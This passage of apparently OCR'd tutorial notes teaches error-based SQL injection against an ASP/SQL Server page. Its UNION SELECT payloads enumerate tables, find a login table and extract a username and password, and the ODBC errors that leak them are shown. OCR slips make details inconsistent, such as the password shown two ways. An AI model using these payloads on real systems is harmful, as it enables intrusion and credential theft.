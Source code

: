 - Then using the following statement, the name of the next table in the database tables will be returned
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
  WHERE TABLE_NAME not IN ('employeetable') --
  ```


Example 2:
- use the `LIKE` keyword in the following statement, additional information can be found:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
  WHERE TABLE_NAME LIKE '%25 login%25'--
  ```
  - The term `'%25login%25'`: will be interpreted as `%login%` by the server.
  - The resulting **ODBC error message** would be:
    - The ODBC error message identifies a table name as `sys_login`.

```bash
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'sys_login' to a column of data type int.
/index.asp, line 6
```

- The next step, obtain a `login_name` from the `sys_login table`:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 login_name FROM sys_login --
  ```
  - The resulting **ODBC error message**:
    - provides the login name `whiteknight` from the `sys_login` table

```bash
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL ServerJSyntax error converting the nvarchar value 'whiteknight' to a column of data type int.
/index.asp, line 6
```

- To obtain the password for whiteknight:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 password FROM sys_login
  where login_name='whiteknight' --
  ```
  - The corresponding **ODBC error message**: gives the password for whiteknight is revealed: `rlkfoo3`.

```bash
Microsoft OLE DB Provider for ODBC Drivers error '80040907'
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'rlkfooB' to a column of data type int.
/index.asp, line 6
```

---

### Acquiring Table Column Names

